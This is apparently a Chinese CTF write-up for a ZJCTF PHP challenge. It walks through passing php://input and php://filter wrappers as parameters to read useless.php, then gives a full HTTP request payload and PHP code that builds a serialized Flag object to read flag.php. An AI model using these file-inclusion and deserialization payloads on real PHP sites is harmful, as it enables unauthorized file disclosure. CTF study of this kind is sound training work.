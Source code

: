 ```php
?>
```

这里需要上传三个参数`text`，`file`，`password`，`text`需要引入一个包含`welcome to the zjctf`的文件，这里可以采用`php://input`伪协议的方法，或者采用远程引入的方法；`file`参数则是不能包含`flag`，我们看到注释中包含`useless.php`，我们先用`php://filter`伪协议读取`useless.php`的源代码，base64解码；password暂时还没什么利用方向

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

我们读取到了`useless.php`的源代码，现在要利用他来进行我们的反序列化，这时候前面的`password`就派上了用场，因为`Flag`类中，包括我们的`__toString`魔术方法，会在我们把**对象当做字符串使用时调用**，利用我们的`Flag`类进行反序列化拿到`flag`

### payload

```http
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php&password=1 HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```

```php
<?php
include useless.php
    
$res = new Flag();
$res->file = 'flag.php';
echo serialize($res);

// O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
